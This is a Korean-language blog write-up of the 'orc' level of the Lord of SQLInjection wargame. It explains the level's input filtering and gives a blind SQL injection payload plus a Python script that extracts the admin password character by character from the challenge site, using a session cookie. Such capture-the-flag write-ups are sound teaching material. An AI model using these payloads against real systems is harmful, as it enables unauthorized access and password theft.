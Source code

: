 ```yaml
---
layout: single
title: "[Lord of SQLInjection] orc write-up"
date: 2025-04-21 00:15 +0900
categories: 
    - WEB-write-up
tag:
typora-root-url: ../
toc: true
toc_sticky: true
toc_label: 목차
author_profile: true
comment: true
sidebar:
    nav: "docs"
---
```




## Lord of SQLInjection (orc)

### ✏️ 풀이

문제를 읽어보면 `preg_match` 함수를 이용해서 특수문자를 필터링하고 있다. 처음 필터링을 통과한 후에는 pw 파라미터에 다시 `addslashes` 함수를 적용한 후 쿼리를 넣는다. 결과 값의 pw 값이 파라미터에 넣은 pw와 일치하면 solve인 것 같다. 결과의 pw 값과 파라미터의 pw 값이 일치해야 하므로 blind sqli로 admin의 비밀번호를 맞추어야 하는 것 같다.

![image-20250421001711903](/images/2025-04-21-los-orc/image-20250421001711903.png)

<br>

일단 첫 번째로 `preg_match` 함수로 필터링하고 있는 특수문자는 아래와 같다.

```text
prob
_
.
(
)
```

<br>

싱글쿼터, 공백, or, 주석 등을 키워드 하지 않아 pw 파라미터에 넣어보면 아래와 같이 Hello admin이 나오는데 이제 아래 부분을 만족시켜야 한다.

![image-20250421002705178](/images/2025-04-21-los-orc/image-20250421002705178.png)

<br>

`addslashes` 함수는 특수문자 앞에 `\` 문자를 넣어 문자열을 다시 반환하는데, 적용되는 문자는 `'`, `"`, `\`, `NULL(Null byte)` 이다. 근데 일단 이번 문제에서는 `addslashes` 함수를 고려하지 않고 `preg_match` 함수만 보면 blind sqli로 admin의 pw 값을 알아낼 수 있다.

<br>

해당 필터링에서는 (와 )가 붙어있는 `()` 부분에 대해서만 필터링을 고려하므로 아래와 같은 식으로 pw의 값을 substr 함수를 이용해 첫 번째 문자가 ascii 함수로 65가 맞는지 검증하면 된다. 이제 맞는다면 위에 'Hello admin' 까지 나오기 때문에 참 거짓으로 blind sqli가 가능하다.

```
pw = 'or ASCII(substr(pw,1,1))=65-- -'
```

<br>

아래처럼 파이썬 코드를 작성할 수 있다. 세션 값인 PHPSESSID를 가져와서 request를 해야 오류가 나지 않는다.

```python
import requests

url = "https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php"
session_id = "3amg05ksc6rm4s8dmevhre6hg6"

for pos in range(1, 21):
    found = False
    for i in range(32, 127):
        payload = f"' or ascii(substr(pw,{pos},1))={i}-- -"
        params = {"pw": payload}
        cookies = {"PHPSESSID": session_id}

        res = requests.get(url, params=params, cookies=cookies)

        if "Hello admin" in res.text:
            print(f"[+] {pos}번째 문자: {chr(i)}")
            found = True
            break
    if not found:
        print(f"[-] End")
        break

```

![image-20250421011702859](/images/2025-04-21-los-orc/image-20250421011702859.png)

<br>

해당 값을  pw 파라미터에 넣어주면 clear 된 것을 볼 수 있다.

![image-20250421011717357](/images/2025-04-21-los-orc/image-20250421011717357.png)